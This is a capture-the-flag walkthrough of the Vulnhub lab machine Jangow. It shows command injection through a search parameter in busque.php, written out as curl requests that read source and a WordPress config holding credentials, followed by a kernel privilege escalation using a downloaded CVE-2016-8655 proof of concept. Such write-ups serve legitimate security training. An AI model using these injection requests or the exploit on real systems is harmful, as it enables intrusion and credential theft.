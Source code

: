 ```yaml
---
title: CTF Walkthrough for Vulnhub Machine Jangow
category: [Walkthrough, CTF]
tags: [Vulnhub, Writeup, Command Injection, Kernel Exploit]   
image:
  path: /assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/box-jangow.png
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Jangow an easy machine among Vulnhub machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Jangow<br>
Goal: Get two flags<br>
Difficulty: Easy<br>
Operating System: Linux<br>
Download link: [Jangow](https://download.vulnhub.com/jangow/jangow-01-1.0.1.ova)<br>
### Tools used
1) Nmap<br>
2) ffuf<br>

## Reconnaissance
We can't attack what we don't know so we first need to identify our target on the network. I used Nmap to carry a host discovery scan to identify all the live hosts on the network.
```bash
nmap -sn 10.0.2.15/24
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/hosts-dis.png)

After identifying the target, we can proceed by performing a service scan on the target.
```bash
sudo nmap -sV -sC -n  10.0.2.8 -oN services-dis.nmap
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/services-dis.png)

From the result obtained, we can see the target runs an FTP and an Apache web server. Since anonymous login is not available on the FTP server let's visit the web application
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/first-browse.png)

We can see the directory **site** clicking on it gives us a fully interactive web application.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/second-browse.png)

The web application looks normal. When we navigate through the website using the navigation bar we see that the element named Buscar redirects us to a busque.php page which accepts an argument named buscar.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/buscar-navigation.png)

This is an uncommon word for me so I did a quick Google search and realised that buscar is a Portuguese word that can be translated as 'search for' in English. From the translation of the word buscar we can deduce that this php page has a search functionality. Let's fuzz for all search terms available on the page.
```bash
ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.8/site/busque.php?buscar=FUZZ -fs 1
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/value-fuzzing.png)

## Exploitation

We can notice that all these search terms are common command line commands. We can try the common command ```id``` and we can see that it is executed by the target.
```bash
curl http://<IP addr>/site/busque.php?buscar=id
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/testing-buscar.png)

Since this file executes commands on the target. Instead of directly attempting to obtain a reverse shell we should first of all understand how this file executes commands i.e. if any filter is put in place to filter commands. To do this let's try to read the content of this file.
```bash
curl http://<IP addr>/site/busque.php?buscar=cat%20busque.php
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/busque-analyses.png)

We can see from the content of this file that no filter has been put in place by the administrator of the web application. I tirelessly tried to obtain a reverse shell but it failed this may be due to the presence of egress filters *NB: Egress filtering is the practice of monitoring and potentially restricting the flow of information outbound from one network to another.* Since we can't obtain a reverse shell we can use this webshell to enumerate the system. We can start by listing the content of the current working directory. We can see that this directory contains and interesting directory named wordpress. When we list the content of the wordpress directory we see a configuration file that contains credentials for the user jangow01.
```bash
curl http://<IP addr>/site/busque.php?buscar=ls
curl http://<IP addr>/site/busque.php?buscar=ls+wordpress
curl http://<IP addr>/site/busque.php?buscar=cat+wordpress%2fconfig.php
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/file-enum-1.png)

We can use this credential to log in to the FTP server as shown below
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/ftp-connect.png)

Since we can't obtain a reverse shell let's access the machine and log in using the credentials we discovered above.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/user-auth-1.png){: .center}

This access gives us the ability to read the user flag on the system and continue our enumeration process.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/user-flag.png)

## Post Exploitation

I tried several manual enumeration techniques and at the end, I enumerated the kernel version to see if the was any public exploit available.<br>
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/kernel-version.png){: .center}

Looking online we can see that this specific kernel version appears to be vulnerable to CVE-2016-8655. Let's download the [POC](https://www.exploit-db.com/exploits/47170) of this exploit and upload it to our target.
```bash
wget https://www.exploit-db.com/download/47170
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/download-exploit.png)

We can now upload this POC to the target using the FTP service it runs. Upon testing the FTP service run by our target we can discover that path traversal is enabled, hence we can move to the **/tmp** directory and upload the exploit's POC.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/exploit-upload.png)
*NB: In case path traversal was not enabled we could grant our self-writing privilege on a directory in the web root directory and upload the POC in that directory using FTP.*

Once we upload the POC to our target we can compile it using the inbuilt gcc on our target. The instructions on how to compile this POC are in the comments.
```bash
gcc 47170.c -o poc -lpthread
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/compile-exploit.png){: .center}

After compiling the POC we can run it and we shall obtain a shell a the root user. 
```bash
./poc
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/root-shell.png){: .center}
Great, with this access, we owned the machine and we can read the root flag found in the root directory.

## Conclusion
Congratulations! In this walkthrough, you have used your enumeration skills to enumerate across the system to find credentials and then used these credentials to log in as a normal user. Finally, you successfully exploited a kernel vulnerability to obtain root access to the target system. This machine demonstrates how poor maintenance of updates can significantly impact an organisation's security posture. Thank you for following up on this walkthrough.









